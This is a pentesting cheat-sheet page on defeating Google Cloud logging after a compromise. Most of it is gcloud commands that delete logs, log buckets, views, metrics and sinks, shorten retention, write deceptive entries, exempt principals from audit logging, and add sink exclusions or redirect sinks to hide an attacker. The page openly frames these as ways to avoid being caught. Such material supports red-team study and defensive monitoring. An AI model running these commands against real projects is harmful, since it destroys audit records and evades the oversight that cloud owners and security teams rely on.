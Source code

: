# GCP - Logging Post Exploitation

{{#include ../../../banners/hacktricks-training.md}}

## Basic Information

For more information check:

{{#ref}}
../gcp-services/gcp-logging-enum.md
{{#endref}}

For other ways to disrupt monitoring check:

{{#ref}}
gcp-monitoring-post-exploitation.md
{{#endref}}

### Default Logging

**By default you won't get caught just for performing read actions. Fore more info check the Logging Enum section.**

### Add Excepted Principal

In [https://console.cloud.google.com/iam-admin/audit/allservices](https://console.cloud.google.com/iam-admin/audit/allservices) and [https://console.cloud.google.com/iam-admin/audit](https://console.cloud.google.com/iam-admin/audit) is possible to add principals to not generate logs. An attacker could abuse this to prevent being caught.

### Read logs - `logging.logEntries.list`

```bash
# Read logs
gcloud logging read "logName=projects/your-project-id/logs/log-id" --limit=10 --format=json

# Everything from a timestamp
gcloud logging read "timestamp >= \"2023-01-01T00:00:00Z\"" --limit=10 --format=json

# Use these options to indicate a different bucket or view to use: --bucket=_Required  --view=_Default
```

### `logging.logs.delete`

```bash
# Delete all entries from a log in the _Default log bucket - logging.logs.delete
gcloud logging logs delete <log-name>
```

### Write logs - `logging.logEntries.create`

```bash
# Write a log entry to try to disrupt some system
gcloud logging write LOG_NAME "A deceptive log entry" --severity=ERROR
```

### `logging.buckets.update`

```bash
# Set retention period to 1 day (_Required has a fixed one of 400days)

gcloud logging buckets update bucketlog --location=<location> --description="New description" --retention-days=1
```

### `logging.buckets.delete`

```bash
# Delete log bucket
gcloud logging buckets delete BUCKET_NAME --location=<location>
```

### `logging.links.delete`

```bash
# Delete link
gcloud logging links delete <link-id> --bucket <bucket> --location <location>
```

### `logging.views.delete`

```bash
# Delete a logging view to remove access to anyone using it
gcloud logging views delete <view-id> --bucket=<bucket> --location=global
```

### `logging.views.update`

```bash
# Update a logging view to hide data
gcloud logging views update <view-id> --log-filter="resource.type=gce_instance" --bucket=<bucket> --location=global --description="New description for the log view"
```

### `logging.logMetrics.update`

```bash
# Update log based metrics - logging.logMetrics.update
gcloud logging metrics update <metric-name> --description="Changed metric description" --log-filter="severity>CRITICAL" --project=PROJECT_ID
```

### `logging.logMetrics.delete`

```bash
# Delete log based metrics - logging.logMetrics.delete
gcloud logging metrics delete <metric-name>
```

### `logging.sinks.delete`

```bash
# Delete sink - logging.sinks.delete
gcloud logging sinks delete <sink-name>
```

### `logging.sinks.update`

```bash
# Disable sink - logging.sinks.update
gcloud logging sinks update <sink-name> --disabled

# Createa filter to exclude attackers logs - logging.sinks.update
gcloud logging sinks update SINK_NAME --add-exclusion="name=exclude-info-logs,filter=severity<INFO"

# Change where the sink is storing the data - logging.sinks.update
gcloud logging sinks update <sink-name> new-destination

# Change the service account to one withuot permissions to write in the destination - logging.sinks.update
gcloud logging sinks update SINK_NAME --custom-writer-identity=attacker-service-account-email --project=PROJECT_ID

# Remove explusions to try to overload with logs - logging.sinks.update
gcloud logging sinks update SINK_NAME --clear-exclusions

# If the sink exports to BigQuery, an attacker might enable or disable the use of partitioned tables, potentially leading to inefficient querying and higher costs. - logging.sinks.update
gcloud logging sinks update SINK_NAME --use-partitioned-tables
gcloud logging sinks update SINK_NAME --no-use-partitioned-tables
```

{{#include ../../../banners/hacktricks-training.md}}





